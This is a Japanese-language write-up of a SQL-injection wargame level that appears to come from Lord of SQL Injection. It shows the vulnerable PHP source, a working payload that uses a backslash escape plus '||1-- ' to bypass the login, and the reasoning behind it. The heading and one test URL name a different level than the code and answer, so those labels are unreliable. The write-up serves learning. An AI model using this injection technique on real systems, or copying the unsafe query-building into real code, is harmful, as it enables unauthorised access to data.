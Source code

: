 # zombie_assassin

## answer

```
https://los.eagle-jump.org/succubus_8ab2d195be2e0b10a3b5aa2873d0863f.php?id=1\&pw=||1--%20;
```

## problem

```
query : select id from prob_succubus where id='' and pw=''

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[id])) exit("HeHe"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_succubus where id='{$_GET[id]}' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) solve("succubus"); 
  highlight_file(__FILE__); 
?>
```

## memo

```https://los.eagle-jump.org/zombie_assassin_14dfa83153eb348c4aea012d453e9c8a.php?id=1&pw=2``とかで試してみる。

```query : select id from prob_succubus where id='1' and pw='2'```となった。

コードを読んでいく。

```
if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
if(preg_match('/\'/i', $_GET[id])) exit("HeHe"); 
if(preg_match('/\'/i', $_GET[pw])) exit("HeHe");
```


全てのパラメータで```'```が禁じられているので、フィルターは結構厳しい気がする。
```'```を```\'```とエスケープシーケンスする方法を考えた。

```
?id=\&pw=||1-- ;
```

これにより、idパラメータを```1\' and pw=```とみなすことができるはずであり、
このあとに挿入する```||1-- ;```はフィルターを返さずsql文として実行できそうだ。

--のあとに空白（%20）が必要なので気をつけること。

## references

- [preg_match | php manual](https://www.php.net/manual/ja/function.preg-match.php)

- [ereg | php manual](https://www.php.net/manual/ja/function.ereg.php)

- [mysql_fetch_array | php manual](https://www.php.net/manual/ja/function.mysql-fetch-array.php)

- [mysql_query | php manual](https://www.php.net/manual/ja/function.mysql-query.php)

- [highlight_file | php manual](https://www.php.net/manual/ja/function.highlight-file.php)
